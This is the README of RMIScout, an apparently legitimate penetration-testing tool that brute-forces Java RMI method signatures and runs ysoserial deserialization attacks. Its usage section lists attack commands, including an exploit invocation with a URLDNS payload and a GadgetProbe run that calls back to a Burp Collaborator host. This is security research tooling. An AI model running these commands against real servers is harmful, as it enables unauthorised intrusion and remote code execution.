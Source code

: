 <p align="center">
  <img src="assets/RMIScout.png" width=600/>
</p>

#



![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/java-8%2b-blue.svg)

### Description

RMIScout performs wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation.

On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.lang.String`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) and [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

<p align="center">
  <img src="assets/wordlist_attack.png" width=800/>
</p>

### Motivation

I wanted a tool to do the following tasks:
1. Provide wordlist and text-based bruteforce strategies instead of bruteforcing a 64-bit method hash.
2. Identify RMI methods without invoking them.
3. Provide a simple way to exploit the known issue of unsafe RMI parameter unmarshalling and integrate with ysoserial or payloads implementing `ysoserial.payloads.ObjectPayload`.
4. Integrate GadgetProbe to identify remote classes to help identify relevant software and construct gadget chains.

To start off your search, the included `lists/prototypes.txt` wordlist is a deduplicated wordlist from 15,000 RMI prototypes found in OSS projects across GitHub. Feel free to submit a PR to include more :)

### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

Read a [full technical writeup here](https://know.bishopfox.com/research/rmiscout).

### Usage

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```


### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.0-SNAPSHOT-all.jar wordlist -i prototypes.txt <host> <port>
```


### Try It out
Run the demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start.sh
```
### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)

